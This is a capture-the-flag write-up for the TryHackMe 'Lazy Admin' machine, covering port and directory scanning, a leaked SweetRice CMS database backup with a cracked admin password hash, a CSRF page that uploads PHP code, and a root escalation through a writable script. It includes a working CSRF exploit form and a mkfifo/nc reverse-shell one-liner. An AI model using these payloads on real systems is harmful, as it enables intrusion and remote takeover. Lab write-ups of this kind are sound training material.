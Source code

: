 # Lazy Admin - TryHackMe WriteUp
# By 0xRar



## Scanning
```
nmap -T4 -p- -A -sC -Pn MACHINE_IP
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-22 19:12 EST
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that we have port 80 open lets check that out first:
`http://MACHINE_IP` we can see the Apache2 Ubuntu Default Page.


lets check what directories do we have:
```
/

gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)



/content

gobuster dir -u MACHINE_IP/content -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)

```

> By taking a look at the source code of the `/content`
> we can see that we have a js linked `http://MACHINE_IP/content/js/SweetRice.js`
> by checking the js file we see that the `cms: SweetRice version is 0.5.4`


## Exploitation

- Now that we have the cms name and version we can search for exploits
```
searchsploit SweetRice
as we can see there is 2 interesting exploits here:
SweetRice 1.5.1 - Backup Disclosure /content/inc/mysql_backup/ (https://www.exploit-db.com/exploits/40718)
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution (https://www.exploit-db.com/exploits/40700)
```

![dir](https://user-images.githubusercontent.com/33517160/105569406-6188f880-5d52-11eb-8cb9-4f5901c5ae3c.png)

- After downloading the mysql backup it seems like the file type is php script 
`file mysql_bakup_20191129023059-1.5.1.sql`

- After going through the file and reading the content we can see the username and the passwd:
```
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\

username : manager

the passwd looks like an md5 hash we can crack it at (https://crackstation.net/)

passwd : Password123
```

- Looking at the directiries we see the login page at `http://MACHINE_IP/content/as/`
- Logging in gave us nothing , so lets check out the other exploit it will allow us to execute code , it means we can get a reverse shell

```
first lets edit our exploit.html , and change the localhost to our MACHINE_IP
and change the location of the login page

<html>
<body onload="document.exploit.submit();">
<form action="http://MACHINE_IP/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

firefox exploit.html &

Running the exploit.html twice will upload our PoC

going to (http://MACHINE_IP/content/inc/ads/hacked.php), if you can see the phpinfo() page
that means your exploit worked !
```
![PoC](https://user-images.githubusercontent.com/33517160/105569359-1373f500-5d52-11eb-9388-692b956b2a7c.png)


- Now we can use a reverse shell to gain access
```
i use (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

instead of using this ,
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>

we delete it and paste in our php shell,
 than firefox exploit.html again 
```

- Lets listen via nc `nc -lnvp 4444`
- We can see our shell is uploaded lets run it by going to `/content/inc/ads/shellname.php`


- Lets go get our user flag
```
cd home/itguy
cat user.txt

THM{********************************}    
```


## Privilege Escalation

```
in the itguy dir we see a backup.pl

we see that backup.pl is calling  /etc/copy.sh and copy.sh is writeable for users

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MACHINE_IP 7777 >/tmp/f
```

- Lets open a new terminal and listen via nc again  `nc -lnvp 7777`

```
now lets run backup.pl so it calls copy.sh than trigger our shell

cd root

cat root.txt

THM{********************************}

```

## This machine is an example for chaining 2 exploits to gain access.
## Thank you for reading 

